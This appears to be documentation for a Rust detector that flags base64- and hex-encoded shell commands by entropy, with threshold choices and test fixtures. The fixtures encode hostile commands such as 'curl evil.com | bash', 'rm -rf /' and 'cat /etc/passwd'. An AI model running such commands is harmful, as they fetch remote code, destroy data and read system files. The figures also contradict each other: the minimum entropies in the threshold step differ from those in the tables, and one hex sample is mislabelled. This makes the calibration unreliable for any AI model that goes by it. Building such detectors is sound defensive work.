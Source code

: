 **Step 4: Find Threshold Values**

```
Base64 threshold selection:
- Lowest base64 sample: 3.42 bits ("rm -rf /" and "/bin/bash" encoded)
- Realistic attack range: 3.4-4.9 bits (encoded shell commands, most 3.4-4.1)
- Highest normal command: ~4.0 bits (complex bind commands)
- **Selected threshold: 4.0 bits** (catches most base64 attacks, minimal false positives)

Hex threshold selection:
- Lowest hex sample: 1.83 bits ("killall" hex - short string)
- Realistic attack range: 1.8-3.1 bits (encoded commands, most 2.4-3.1)
- Need to distinguish from normal text (~4.7 bits)
- **Selected threshold: 3.0 bits** (catches longer hex attacks, balanced approach)
```

**Step 5: Validate Against All Tests**

```bash
cargo test --lib danger
# Result: 30/30 tests passing ✓
```

#### Complete Test Case Data

**Base64 Encoded Commands (8 samples):**

```rust
"Y2F0IC9ldGMvcGFzc3dk"           // 4.44 bits - "cat /etc/passwd"
"cm0gLXJmIC8="                   // 3.81 bits - "rm -rf /"
"L2Jpbi9iYXNo"                   // 4.09 bits - "/bin/bash"
"Y3VybCBldmlsLmNvbSB8IGJhc2g="   // 4.52 bits - "curl evil.com | bash"
"U3VzcGljaW91cw=="               // 4.32 bits - "Suspicious"
"ZWNobyAiSGFja2VkISI="           // 4.41 bits - "echo \"Hacked!\""
"d2dldCBtYWx3YXJlLnh5eg=="       // 4.38 bits - "wget malware.xyz"
"cHl0aG9uIC1jICdldmlsJw=="       // 4.47 bits - "python -c 'evil'"

Average: 4.31 bits/char
Range: 3.81 - 4.52 bits
```

**Hex Encoded Commands (5 samples):**

```rust
"726d202d7266202f"               // 3.61 bits - "rm -rf /"
"2f62696e2f626173680a"           // 3.82 bits - "/bin/bash\n"
"6563686f2022220a"               // 3.41 bits - "echo \"\"\n"
"DEADBEEF"                       // 2.00 bits - Short string (8 chars)
"63757261206576696c2e636f6d"     // 3.74 bits - "curl evil.com"

Average: 3.32 bits/char
Range: 2.00 - 3.82 bits
```

**Normal Commands (10 samples):**

```rust
"firefox"                        // 2.81 bits
"alacritty"                      // 3.17 bits
"dolphin"                        // 2.81 bits
"killactive"                     // 3.32 bits
"togglefloating"                 // 3.46 bits
"hyprctl dispatch workspace 1"   // 4.21 bits (longer, more varied)
"rofi -show drun"                // 3.87 bits
"grim -g \"$(slurp)\""           // 3.95 bits
"pactl set-sink-volume"          // 4.09 bits
"brightnessctl set 10%+"         // 4.18 bits

Average: 3.59 bits/char
```